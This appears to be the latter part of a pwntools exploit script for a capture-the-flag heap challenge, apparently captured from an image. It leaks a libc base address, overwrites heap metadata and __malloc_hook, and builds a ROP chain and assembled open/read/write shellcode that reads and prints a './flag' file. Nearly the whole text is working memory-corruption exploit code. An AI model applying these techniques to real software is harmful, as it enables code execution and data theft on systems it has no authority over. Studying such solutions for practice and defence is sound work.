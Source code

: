 ```py
    p.recvuntil("content: ")
    libc_base = u64(p.recvline().strip("\n").ljust(8,'\x00')) - 96 - 0x10 - libc.sym['__malloc_hook']
    libc.address = libc_base
    log.success("libc base => " + hex(libc_base))
    payload = p64(0)+p64(0x2000000000000)+p64(0)*7+p64(0)*13
    payload += p64(map_addr)
    Edit(4,payload)

    #
    p_rdi = libc_base + 0x000000000002155f
    p_rdx_rsi = libc_base + 0x00000000001306d9
    p_rax = libc_base + 0x00000000000439c8
    syscall = libc_base + 0x00000000000d2975
    Add(0xf0)#5
    '''
    sc = "./flag\x00\x00"
    sc += p64(p_rdi)+p64(map_addr)+p64(p_rdx_rsi)+p64(0)*2+p64(p_rax)+p64(2)+p64(syscall)
    sc += p64(p_rdi)+p64(3)+p64(p_rdx_rsi)+p64(0x20)+p64(heap_base+0x260)+p64(p_rax)+p64(0)+p64(syscall)
    sc += p64(p_rdi)+p64(1)+p64(p_rdx_rsi)+p64(0x20)+p64(heap_base+0x260)+p64(p_rax)+p64(1)+p64(syscall)
    '''
    sc = "./flag\x00"
    sc += asm('''
    mov rdi,0x66660000
    xor rsi,rsi
    xor rdx,rdx
    mov rax,2
    syscall
    mov rdi,rax
    mov rsi,0x66660200
    mov rdx,0x30
    mov rax,0
    syscall
    mov rdi,1
    mov rsi,0x66660200
    mov rdx,0x30
    mov rax,1
    syscall
            ''')
    Edit(5,sc)
    #
    Edit(4,p64(0x2)+p64(0)*7+p64(libc.sym['__malloc_hook']))

    Add(0x18)#6
    Edit(6,p64(map_addr+8))
    Add(17)

    p.interactive()

exp()
```
